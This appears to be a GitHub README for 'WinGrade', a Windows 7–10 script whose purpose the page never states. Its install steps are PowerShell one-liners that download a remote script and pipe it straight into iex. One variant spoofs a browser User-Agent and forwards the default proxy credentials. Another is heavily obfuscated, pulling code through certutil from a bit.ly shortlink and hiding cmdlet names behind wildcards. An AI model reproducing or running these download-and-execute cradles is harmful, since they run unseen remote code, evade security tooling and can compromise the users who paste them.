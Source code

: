 # WinGrade

You can execute it in every Windows Operating System from Windows 7 - 10.

You don't have to Download the Program directly at github.

Just execute [CMD]:
```powershell
powershell "iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Crypt2Shell/WinGrade/master/scripts/search.ps1')"
```
or
```powershell
powershell "$down=New-Object Net.WebClient;$down.Headers['User-Agent']='Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US) AppleWebKit/525.19 (KHTML, like Gecko) Chrome/1.0.154.53 Safari/525.19';$down.Proxy.Credentials=[System.Net.CredentialCache]::DefaultNetworkCredentials;$down.DownloadString('https://raw.githubusercontent.com/Crypt2Shell/WinGrade/master/scripts/search.ps1')|iex"
```
in [POWERSHELL]:

```powershell
powershell "iex(((C:\Windows\System32\certutil -ping https://bit.ly/2tZuas2|&(GV *ecu*t -ValueOn).InvokeCommand.(((GV *ecu*t -ValueOn).InvokeCommand.PsObject.Methods|Where-Object{`$_.Name-ilike'Ge*ts'}).Name).Invoke('*ct-Ob*')-Skip 2|&(GV *ecu*t -ValueOn).InvokeCommand.(((GV *ecu*t -ValueOn).InvokeCommand.PsObject.Methods|Where-Object{`$_.Name-ilike'Ge*ts'}).Name).Invoke('*ct-Ob*')-SkipLast 1)-Join'`r`n'))"
```

Tested on following Operating Systems:

|   System        |  x64  |  x86  |
| :---            | :---: | :---: |
| Windows 10      |  <ul><li>- [x] item1</li></ul>  |  <ul><li>- [ ] item1</li></ul>  |
| Windows 8.1     |  <ul><li>- [x] item1</li></ul>  |  <ul><li>- [ ] item1</li></ul>  |
| Windows 8       |  <ul><li>- [ ] item1</li></ul>  |  <ul><li>- [ ] item1</li></ul>  |
| Windows 7       |  <ul><li>- [x] item1</li></ul>  |  <ul><li>- [ ] item1</li></ul>  |
| Windows Vista   |  <ul><li>- [ ] item1</li></ul>  |  <ul><li>- [ ] item1</li></ul>  |

This Script is still in the early Alpha release!!! And has some bugs
